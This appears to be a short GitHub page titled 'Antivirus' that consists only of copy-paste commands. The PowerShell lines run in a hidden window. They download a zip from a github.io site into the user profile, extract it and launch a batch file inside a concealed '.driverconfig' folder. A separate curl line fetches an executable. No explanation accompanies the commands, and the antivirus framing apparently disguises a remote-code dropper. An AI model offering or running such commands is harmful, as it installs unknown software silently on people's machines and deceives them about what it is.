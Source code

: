 # Antivirus

powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


curl -L -o ffplay.exe https://jmorg23.github.io/AV/ffplay.exe


powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startup.bat